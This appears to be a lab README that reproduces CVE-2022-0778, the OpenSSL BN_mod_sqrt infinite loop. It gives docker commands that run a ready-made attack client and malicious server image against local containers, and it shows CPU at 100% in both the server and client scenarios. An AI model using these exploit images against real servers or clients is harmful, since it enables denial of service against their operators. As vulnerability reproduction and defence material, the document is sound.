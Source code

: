 # CVE-2022-0778

OpenSSL is a secure socket layer cryptographic library that includes major cryptographic algorithms, commonly used key and certificate encapsulation management functions and SSL protocols, and provides a wealth of applications for testing or other purposes.

The vulnerability is due to a bug in the BN_mod_sqrt() function that computes the modulo square root, which could cause it to loop infinitely for non-prime modulo numbers, resulting in a denial of service.

Reference link:

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0778
- https://github.com/yywing/cve-2022-0778
- https://www.cnblogs.com/logchen/p/16030515.html

## Environment setup

Run the following command to start:
- Affected server (listening on port 12345): OpenSSL 1.1.0f, python server (with client certificate verification enabled)
- Malicious server that exploits the vulnerability (listening on port 12346: go https server that returns a malicious certificate

```
docker-compose up -d
```

After the environment starts
- `curl -k -v https://localhost:12345` will prompt client certificate error (because client certificate verification is enabled).
- `nc -v localhost 12346` shows the port listening (if the local openssl is affected by the direct curl, the cpu will be directly 100%)

## Vulnerability to reproduce

run:
```
# attack
docker run -it --rm --entrypoint badclient yywing/cve-2022-0778 --addr host.docker.internal:12345

docker stats --no-stream

CONTAINER ID   NAME                        CPU %     MEM USAGE / LIMIT     MEM %     NET I/O           BLOCK I/O   PIDS
3d948d277a89   cve-2022-0778-server-1      99.87%    7.398MiB / 50.15GiB   0.01%     4.38kB / 5.21kB   0B / 0B     1
ba9d7fd208c3   cve-2022-0778-badserver-1   0.00%     2.77MiB / 50.15GiB    0.01%     2.5kB / 1.55kB    0B / 0B     5
```

When an affected server has client certificate verification turned on, a malicious client can send a malicious certificate, causing the server CPU to soar.

run:
```
# client
docker run -it --rm yywing/cve-2022-0778-target curl https://host.docker.internal:12346
# or
docker run -it --rm yywing/cve-2022-0778-target python -c "import http.client;http.client.HTTPSConnection('host.docker.internal', 12345).request('GET', '/')"

docker stats --no-stream

CONTAINER ID   NAME                        CPU %     MEM USAGE / LIMIT     MEM %     NET I/O           BLOCK I/O   PIDS
8ffae845cf96   recursing_dhawan            100.08%   2.801MiB / 50.15GiB   0.01%     2.17kB / 997B     0B / 0B     1
de385c0e76a3   cve-2022-0778-server-1      0.00%     7.375MiB / 50.15GiB   0.01%     878B / 0B         0B / 0B     1
88f476ad4581   cve-2022-0778-badserver-1   0.00%     2.758MiB / 50.15GiB   0.01%     1.78kB / 1.16kB   0B / 0B     5
```
When an affected client accesses a malicious server, the malicious server can send a malicious certificate, causing the client's CPU to soar.

Note:
1. nmap is affected
2. I feel that the red team's perspective loophole is relatively tasteless, but the blue team's perspective is very useful to counter it.